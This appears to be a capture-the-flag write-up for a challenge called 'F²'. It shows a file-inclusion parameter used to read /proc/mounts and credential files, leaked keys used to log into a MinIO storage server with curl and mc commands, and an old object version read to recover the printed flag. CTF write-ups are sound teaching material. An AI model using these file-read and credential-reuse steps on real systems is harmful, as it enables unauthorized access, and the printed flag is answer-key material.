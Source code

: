 # F² Writeup

In this challenge, we’re given a parameter `f` that is vulnerable to **LFI**.  
At first glance, reading common files doesn’t reveal anything useful. But there’s a trick... (well, not every LFI gives a flag directly)

Accessing the `/proc/mounts` file can sometimes give interesting insights into mounted volumes or filesystems:

👉 [https://f2.tekup-securinets.org/?f=/proc/mounts](https://f2.tekup-securinets.org/?f=/proc/mounts)

In the output, we notice some suspicious and uncommon files:

```
travler-gate  
travler-key  
travler-ep  
inventory-99
```

Let’s grab those files using LFI.

After fetching the `travler-gate`, `travler-key`, and `travler-ep`, we find what look like **access credentials** (possibly for a service).

Next, try sending a request to the IP used in the challenge:

```bash
curl -v http://185.91.127.50:13131
```

And here's the response:

```
< Server: MinIO
...
< HTTP/1.1 403 Forbidden
```

The `Server: MinIO` header tells us that we’re dealing with a MinIO instance — a self-hosted S3-compatible object storage service.

This confirms that the **access and secret keys** we found earlier belong to this MinIO service.

## Accessing MinIO

Download the MinIO client `mc` from the official site:  
👉 [Download Minio here](https://min.io/docs/minio/linux/index.html)

Then, configure it with the keys we found:

```bash
mc alias set traveler http://185.91.127.50:13131 ACCESS_KEY SECRET_KEY
```

Now, list the available buckets:

```bash
mc ls traveler
```

You should see a bucket named `inventory-99`.

## Step 4: Explore the Bucket

Let’s list the contents:

```bash
mc ls traveler/inventory-99
```

There’s a file named `item`. Download and inspect it:

```bash
mc cp traveler/inventory-99/item .
cat item
```

At first glance, it looks like just a list of inventory items... nothing special.

```
- id: 001
  name: Rusty Sword
  type: Weapon
  rarity: Common
  quantity: 1

- id: 002
  name: Healing Potion
  type: Consumable
  rarity: Uncommon
  quantity: 3

- id: 003
  name: Silver Key
  type: Quest Item
  rarity: Rare
  quantity: 1
```

But wait, one of the S3 features is versioning, and MinIO supports **versioning** on buckets. That means previous versions of the files might still be accessible.

Let’s list all versions of the `item` file:

```bash
mc ls --versions traveler/inventory-99
```

Copy and check the **first version** of the file:

```bash
mc cp --vid <version-id> traveler/inventory-99/item flag
cat flag
-> securinets{kk12121212121212121212kk}
```
